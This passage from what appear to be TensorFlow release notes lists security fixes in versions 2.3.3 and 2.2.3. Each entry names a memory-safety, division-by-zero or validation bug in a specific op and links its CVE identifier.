    ([CVE-2021-29579](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29579))
*   Fixes a segfault in `CTCBeamSearchDecoder`
    ([CVE-2021-29581](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29581))
*   Fixes a heap OOB read in `tf.raw_ops.Dequantize`
    ([CVE-2021-29582](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29582))
*   Fixes a `CHECK`-fail due to integer overflow
    ([CVE-2021-29584](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29584))
*   Fixes a heap buffer overflow and undefined behavior in `FusedBatchNorm`
    ([CVE-2021-29583](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29583))
*   Fixes a division by zero in padding computation in TFLite
    ([CVE-2021-29585](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29585))
*   Fixes a division by zero in optimized pooling implementations in TFLite
    ([CVE-2021-29586](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29586))
*   Fixes a division by zero in TFLite's implementation of `SpaceToDepth`
    ([CVE-2021-29587](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29587))
*   Fixes a division by zero in TFLite's implementation of `GatherNd`
    ([CVE-2021-29589](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29589))
*   Fixes a division by zero in TFLite's implementation of `TransposeConv`
    ([CVE-2021-29588](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29588))
*   Fixes a heap OOB read in TFLite's implementation of `Minimum` or `Maximum`
    ([CVE-2021-29590](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29590))
*   Fixes a null pointer dereference in TFLite's `Reshape` operator
    ([CVE-2021-29592](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29592))
*   Fixes a stack overflow due to looping TFLite subgraph
    ([CVE-2021-29591](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29591))
*   Fixes a division by zero in TFLite's implementation of `DepthToSpace`
    ([CVE-2021-29595](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29595))
*   Fixes a division by zero in TFLite's convolution code
    ([CVE-2021-29594](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29594))
*   Fixes a division by zero in TFLite's implementation of `EmbeddingLookup`
    ([CVE-2021-29596](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29596))
*   Fixes a division by zero in TFLite's implementation of `BatchToSpaceNd`
    ([CVE-2021-29593](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29593))
*   Fixes a division by zero in TFLite's implementation of `SpaceToBatchNd`
    ([CVE-2021-29597](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29597))
*   Fixes a division by zero in TFLite's implementation of `SVDF`
    ([CVE-2021-29598](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29598))
*   Fixes a division by zero in TFLite's implementation of `Split`
    ([CVE-2021-29599](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29599))
*   Fixes a division by zero in TFLite's implementation of `OneHot`
    ([CVE-2021-29600](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29600))
*   Fixes a division by zero in TFLite's implementation of `DepthwiseConv`
    ([CVE-2021-29602](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29602))
*   Fixes a division by zero in TFLite's implementation of hashtable lookup
    ([CVE-2021-29604](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29604))
*   Fixes a integer overflow in TFLite concatentation
    ([CVE-2021-29601](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29601))
*   Fixes a integer overflow in TFLite memory allocation
    ([CVE-2021-29605](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29605))
*   Fixes a heap OOB write in TFLite
    ([CVE-2021-29603](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29603))
*   Fixes a heap OOB read in TFLite
    ([CVE-2021-29606](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29606))
*   Fixes a heap OOB and null pointer dereference in `RaggedTensorToTensor`
    ([CVE-2021-29608](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29608))
*   Fixes vulnerabilities caused by incomplete validation in `SparseAdd`
    ([CVE-2021-29609](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29609))
*   Fixes vulnerabilities caused by incomplete validation in
    `SparseSparseMinimum`
    ([CVE-2021-29607](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29607))
*   Fixes vulnerabilities caused by incomplete validation in `SparseReshape`
    ([CVE-2021-29611](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29611))
*   Fixes vulnerabilities caused by invalid validation in
    `QuantizeAndDequantizeV2`
    ([CVE-2021-29610](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29610))
*   Fixes a heap buffer overflow in `BandedTriangularSolve`
    ([CVE-2021-29612](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29612))
*   Fixes vulnerabilities caused by incomplete validation in
    `tf.raw_ops.CTCLoss`
    ([CVE-2021-29613](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29613))
*   Fixes an interpreter crash from vulnerabilities in `tf.io.decode_raw`
    ([CVE-2021-29614](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29614))
*   Fixes a stack overflow in `ParseAttrValue` with nested tensors
    ([CVE-2021-29615](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29615))
*   Fixes a null dereference in Grappler's `TrySimplify`
    ([CVE-2021-29616](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29616))
*   Fixes a crash in `tf.transpose` with complex inputs
    ([CVE-2021-29618](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29618))
*   Fixes a crash in `tf.strings.substr` due to `CHECK`-fail
    ([CVE-2021-29617](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29617))
*   Fixes a segfault in `tf.raw_ops.SparseCountSparseOutput`
    ([CVE-2021-29619](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29619))
*   Fixes a segfault in `tf.raw_ops.ImmutableConst`
    ([CVE-2021-29539](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29539))
*   Updates `curl` to `7.76.0` to handle
    [CVE-2020-8169](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8169),
    [CVE-2020-8177](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8177),
    [CVE-2020-8231](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8231),
    [CVE-2020-8284](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8284),
    [CVE-2020-8285](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8285)
    and
    [CVE-2020-8286](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8286).

# Release 2.3.3

This release introduces several vulnerability fixes:

*   Fixes a heap buffer overflow in `RaggedBinCount`
    ([CVE-2021-29512](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29512))
*   Fixes a heap out of bounds write in `RaggedBinCount`
    ([CVE-2021-29514](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29514))
*   Fixes a type confusion during tensor casts which leads to dereferencing null
    pointers
    ([CVE-2021-29513](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29513))
*   Fixes a reference binding to null pointer in `MatrixDiag*` ops
    ([CVE-2021-29515](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29515))
*   Fixes a null pointer dereference via invalid Ragged Tensors
    ([CVE-2021-29516](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29516))
*   Fixes a division by zero in `Conv3D`
    ([CVE-2021-29517](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29517))
*   Fixes vulnerabilities where session operations in eager mode lead to null
    pointer dereferences
    ([CVE-2021-29518](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29518))
*   Fixes a `CHECK`-fail in `SparseCross` caused by type confusion
    ([CVE-2021-29519](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29519))
*   Fixes a segfault in `SparseCountSparseOutput`
    ([CVE-2021-29521](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29521))
*   Fixes a heap buffer overflow in `Conv3DBackprop*`
    ([CVE-2021-29520](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29520))
*   Fixes a division by 0 in `Conv3DBackprop*`
    ([CVE-2021-29522](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29522))
*   Fixes a `CHECK`-fail in `AddManySparseToTensorsMap`
    ([CVE-2021-29523](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29523))
*   Fixes a division by 0 in `Conv2DBackpropFilter`
    ([CVE-2021-29524](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29524))
*   Fixes a division by 0 in `Conv2DBackpropInput`
    ([CVE-2021-29525](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29525))
*   Fixes a division by 0 in `Conv2D`
    ([CVE-2021-29526](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29526))
*   Fixes a division by 0 in `QuantizedConv2D`
    ([CVE-2021-29527](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29527))
*   Fixes a division by 0 in `QuantizedMul`
    ([CVE-2021-29528](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29528))
*   Fixes vulnerabilities caused by invalid validation in
    `SparseMatrixSparseCholesky`
    ([CVE-2021-29530](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29530))
*   Fixes a heap buffer overflow caused by rounding
    ([CVE-2021-29529](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29529))
*   Fixes a `CHECK`-fail in `tf.raw_ops.EncodePng`
    ([CVE-2021-29531](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29531))
*   Fixes a heap out of bounds read in `RaggedCross`
    ([CVE-2021-29532](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29532))
*   Fixes a `CHECK`-fail in `DrawBoundingBoxes`
    ([CVE-2021-29533](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29533))
*   Fixes a heap buffer overflow in `QuantizedMul`
    ([CVE-2021-29535](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29535))
*   Fixes a `CHECK`-fail in `SparseConcat`
    ([CVE-2021-29534](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29534))
*   Fixes a heap buffer overflow in `QuantizedResizeBilinear`
    ([CVE-2021-29537](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29537))
*   Fixes a heap buffer overflow in `QuantizedReshape`
    ([CVE-2021-29536](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29536))
*   Fixes a division by zero in `Conv2DBackpropFilter`
    ([CVE-2021-29538](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29538))
*   Fixes a heap buffer overflow in `Conv2DBackpropFilter`
    ([CVE-2021-29540](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29540))
*   Fixes a heap buffer overflow in `StringNGrams`
    ([CVE-2021-29542](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29542))
*   Fixes a null pointer dereference in `StringNGrams`
    ([CVE-2021-29541](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29541))
*   Fixes a `CHECK`-fail in `QuantizeAndDequantizeV4Grad`
    ([CVE-2021-29544](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29544))
*   Fixes a `CHECK`-fail in `CTCGreedyDecoder`
    ([CVE-2021-29543](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29543))
*   Fixes a heap buffer overflow in `SparseTensorToCSRSparseMatrix`
    ([CVE-2021-29545](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29545))
*   Fixes a division by 0 in `QuantizedBiasAdd`
    ([CVE-2021-29546](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29546))
*   Fixes a heap out of bounds in `QuantizedBatchNormWithGlobalNormalization`
    ([CVE-2021-29547](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29547))
*   Fixes a division by 0 in `QuantizedBatchNormWithGlobalNormalization`
    ([CVE-2021-29548](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29548))
*   Fixes a division by 0 in `QuantizedAdd`
    ([CVE-2021-29549](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29549))
*   Fixes a division by 0 in `FractionalAvgPool`
    ([CVE-2021-29550](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29550))
*   Fixes an OOB read in `MatrixTriangularSolve`
    ([CVE-2021-29551](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29551))
*   Fixes a heap OOB in `QuantizeAndDequantizeV3`
    ([CVE-2021-29553](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29553))
*   Fixes a `CHECK`-failure in `UnsortedSegmentJoin`
    ([CVE-2021-29552](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29552))
*   Fixes a division by 0 in `DenseCountSparseOutput`
    ([CVE-2021-29554](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29554))
*   Fixes a division by 0 in `FusedBatchNorm`
    ([CVE-2021-29555](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29555))
*   Fixes a division by 0 in `SparseMatMul`
    ([CVE-2021-29557](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29557))
*   Fixes a division by 0 in `Reverse`
    ([CVE-2021-29556](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29556))
*   Fixes a heap buffer overflow in `SparseSplit`
    ([CVE-2021-29558](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29558))
*   Fixes a heap OOB access in unicode ops
    ([CVE-2021-29559](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29559))
*   Fixes a heap buffer overflow in `RaggedTensorToTensor`
    ([CVE-2021-29560](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29560))
*   Fixes a `CHECK`-fail in `LoadAndRemapMatrix`
    ([CVE-2021-29561](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29561))
*   Fixes a `CHECK`-fail in `tf.raw_ops.IRFFT`
    ([CVE-2021-29562](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29562))
*   Fixes a `CHECK`-fail in `tf.raw_ops.RFFT`
    ([CVE-2021-29563](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29563))
*   Fixes a null pointer dereference in `EditDistance`
    ([CVE-2021-29564](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29564))
*   Fixes a null pointer dereference in `SparseFillEmptyRows`
    ([CVE-2021-29565](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29565))
*   Fixes a heap OOB access in `Dilation2DBackpropInput`
    ([CVE-2021-29566](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29566))
*   Fixes a reference binding to null in `ParameterizedTruncatedNormal`
    ([CVE-2021-29568](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29568))
*   Fixes a set of vulnerabilities caused by lack of validation in
    `SparseDenseCwiseMul`
    ([CVE-2021-29567](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29567))
*   Fixes a heap out of bounds read in `MaxPoolGradWithArgmax`
    ([CVE-2021-29570](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29570))
*   Fixes a heap out of bounds read in `RequantizationRange`
    ([CVE-2021-29569](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29569))
*   Fixes a memory corruption in `DrawBoundingBoxesV2`
    ([CVE-2021-29571](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29571))
*   Fixes a reference binding to nullptr in `SdcaOptimizer`
    ([CVE-2021-29572](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29572))
*   Fixes an overflow and a denial of service in `tf.raw_ops.ReverseSequence`
    ([CVE-2021-29575](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29575))
*   Fixes a division by 0 in `MaxPoolGradWithArgmax`
    ([CVE-2021-29573](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29573))
*   Fixes an undefined behavior in `MaxPool3DGradGrad`
    ([CVE-2021-29574](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29574))
*   Fixes a heap buffer overflow in `MaxPool3DGradGrad`
    ([CVE-2021-29576](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29576))
*   Fixes a heap buffer overflow in `AvgPool3DGrad`
    ([CVE-2021-29577](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29577))
*   Fixes an undefined behavior and a `CHECK`-fail in `FractionalMaxPoolGrad`
    ([CVE-2021-29580](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29580))
*   Fixes a heap buffer overflow in `FractionalAvgPoolGrad`
    ([CVE-2021-29578](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29578))
*   Fixes a heap buffer overflow in `MaxPoolGrad`
    ([CVE-2021-29579](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29579))
*   Fixes a segfault in `CTCBeamSearchDecoder`
    ([CVE-2021-29581](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29581))
*   Fixes a heap OOB read in `tf.raw_ops.Dequantize`
    ([CVE-2021-29582](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29582))
*   Fixes a `CHECK`-fail due to integer overflow
    ([CVE-2021-29584](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29584))
*   Fixes a heap buffer overflow and undefined behavior in `FusedBatchNorm`
    ([CVE-2021-29583](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29583))
*   Fixes a division by zero in padding computation in TFLite
    ([CVE-2021-29585](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29585))
*   Fixes a division by zero in optimized pooling implementations in TFLite
    ([CVE-2021-29586](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29586))
*   Fixes a division by zero in TFLite's implementation of `SpaceToDepth`
    ([CVE-2021-29587](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29587))
*   Fixes a division by zero in TFLite's implementation of `GatherNd`
    ([CVE-2021-29589](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29589))
*   Fixes a division by zero in TFLite's implementation of `TransposeConv`
    ([CVE-2021-29588](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29588))
*   Fixes a heap OOB read in TFLite's implementation of `Minimum` or `Maximum`
    ([CVE-2021-29590](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29590))
*   Fixes a null pointer dereference in TFLite's `Reshape` operator
    ([CVE-2021-29592](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29592))
*   Fixes a stack overflow due to looping TFLite subgraph
    ([CVE-2021-29591](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29591))
*   Fixes a division by zero in TFLite's implementation of `DepthToSpace`
    ([CVE-2021-29595](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29595))
*   Fixes a division by zero in TFLite's convolution code
    ([CVE-2021-29594](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29594))
*   Fixes a division by zero in TFLite's implementation of `EmbeddingLookup`
    ([CVE-2021-29596](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29596))
*   Fixes a division by zero in TFLite's implementation of `BatchToSpaceNd`
    ([CVE-2021-29593](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29593))
*   Fixes a division by zero in TFLite's implementation of `SpaceToBatchNd`
    ([CVE-2021-29597](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29597))
*   Fixes a division by zero in TFLite's implementation of `SVDF`
    ([CVE-2021-29598](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29598))
*   Fixes a division by zero in TFLite's implementation of `Split`
    ([CVE-2021-29599](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29599))
*   Fixes a division by zero in TFLite's implementation of `OneHot`
    ([CVE-2021-29600](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29600))
*   Fixes a division by zero in TFLite's implementation of `DepthwiseConv`
    ([CVE-2021-29602](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29602))
*   Fixes a division by zero in TFLite's implementation of hashtable lookup
    ([CVE-2021-29604](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29604))
*   Fixes a integer overflow in TFLite concatentation
    ([CVE-2021-29601](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29601))
*   Fixes a integer overflow in TFLite memory allocation
    ([CVE-2021-29605](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29605))
*   Fixes a heap OOB write in TFLite
    ([CVE-2021-29603](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29603))
*   Fixes a heap OOB read in TFLite
    ([CVE-2021-29606](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29606))
*   Fixes a heap OOB and null pointer dereference in `RaggedTensorToTensor`
    ([CVE-2021-29608](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29608))
*   Fixes vulnerabilities caused by incomplete validation in `SparseAdd`
    ([CVE-2021-29609](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29609))
*   Fixes vulnerabilities caused by incomplete validation in
    `SparseSparseMinimum`
    ([CVE-2021-29607](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29607))
*   Fixes vulnerabilities caused by incomplete validation in `SparseReshape`
    ([CVE-2021-29611](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29611))
*   Fixes vulnerabilities caused by invalid validation in
    `QuantizeAndDequantizeV2`
    ([CVE-2021-29610](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29610))
*   Fixes a heap buffer overflow in `BandedTriangularSolve`
    ([CVE-2021-29612](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29612))
*   Fixes vulnerabilities caused by incomplete validation in
    `tf.raw_ops.CTCLoss`
    ([CVE-2021-29613](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29613))
*   Fixes an interpreter crash from vulnerabilities in `tf.io.decode_raw`
    ([CVE-2021-29614](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29614))
*   Fixes a stack overflow in `ParseAttrValue` with nested tensors
    ([CVE-2021-29615](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29615))
*   Fixes a null dereference in Grappler's `TrySimplify`
    ([CVE-2021-29616](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29616))
*   Fixes a crash in `tf.transpose` with complex inputs
    ([CVE-2021-29618](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29618))
*   Fixes a crash in `tf.strings.substr` due to `CHECK`-fail
    ([CVE-2021-29617](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29617))
*   Fixes a segfault in `tf.raw_ops.SparseCountSparseOutput`
    ([CVE-2021-29619](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29619))
*   Fixes a segfault in `tf.raw_ops.ImmutableConst`
    ([CVE-2021-29539](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29539))
*   Updates `curl` to `7.76.0` to handle
    [CVE-2020-8169](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8169),
    [CVE-2020-8177](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8177),
    [CVE-2020-8231](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8231),
    [CVE-2020-8284](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8284),
    [CVE-2020-8285](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8285)
    and
    [CVE-2020-8286](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8286).

# Release 2.2.3

This release introduces several vulnerability fixes:

*   Fixes a heap buffer overflow in `RaggedBinCount`
    ([CVE-2021-29512](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29512))
*   Fixes a heap out of bounds write in `RaggedBinCount`
    ([CVE-2021-29514](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29514))
*   Fixes a type confusion during tensor casts which leads to dereferencing null
    pointers
    ([CVE-2021-29513](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29513))
*   Fixes a reference binding to null pointer in `MatrixDiag*` ops
    ([CVE-2021-29515](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29515))
*   Fixes a null pointer dereference via invalid Ragged Tensors
    ([CVE-2021-29516](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29516))
*   Fixes a division by zero in `Conv3D`
    ([CVE-2021-29517](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29517))
*   Fixes vulnerabilities where session operations in eager mode lead to null
    pointer dereferences
    ([CVE-2021-29518](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29518))
*   Fixes a `CHECK`-fail in `SparseCross` caused by type confusion
    ([CVE-2021-29519](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29519))
*   Fixes a segfault in `SparseCountSparseOutput`
    ([CVE-2021-29521](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29521))
*   Fixes a heap buffer overflow in `Conv3DBackprop*`
    ([CVE-2021-29520](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29520))
*   Fixes a division by 0 in `Conv3DBackprop*`
    ([CVE-2021-29522](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29522))
*   Fixes a `CHECK`-fail in `AddManySparseToTensorsMap`
    ([CVE-2021-29523](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29523))
*   Fixes a division by 0 in `Conv2DBackpropFilter`
    ([CVE-2021-29524](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29524))
*   Fixes a division by 0 in `Conv2DBackpropInput`
    ([CVE-2021-29525](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29525))
*   Fixes a division by 0 in `Conv2D`
    ([CVE-2021-29526](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29526))
*   Fixes a division by 0 in `QuantizedConv2D`
    ([CVE-2021-29527](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29527))
*   Fixes a division by 0 in `QuantizedMul`
    ([CVE-2021-29528](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29528))
*   Fixes vulnerabilities caused by invalid validation in
    `SparseMatrixSparseCholesky`
    ([CVE-2021-29530](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29530))
*   Fixes a heap buffer overflow caused by rounding
    ([CVE-2021-29529](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29529))
*   Fixes a `CHECK`-fail in `tf.raw_ops.EncodePng`
    ([CVE-2021-29531](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29531))
*   Fixes a heap out of bounds read in `RaggedCross`
    ([CVE-2021-29532](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29532))
*   Fixes a `CHECK`-fail in `DrawBoundingBoxes`
    ([CVE-2021-29533](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29533))
*   Fixes a heap buffer overflow in `QuantizedMul`
    ([CVE-2021-29535](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29535))
*   Fixes a `CHECK`-fail in `SparseConcat`
    ([CVE-2021-29534](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29534))
*   Fixes a heap buffer overflow in `QuantizedResizeBilinear`
    ([CVE-2021-29537](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29537))
*   Fixes a heap buffer overflow in `QuantizedReshape`
    ([CVE-2021-29536](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29536))
*   Fixes a division by zero in `Conv2DBackpropFilter`
    ([CVE-2021-29538](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29538))
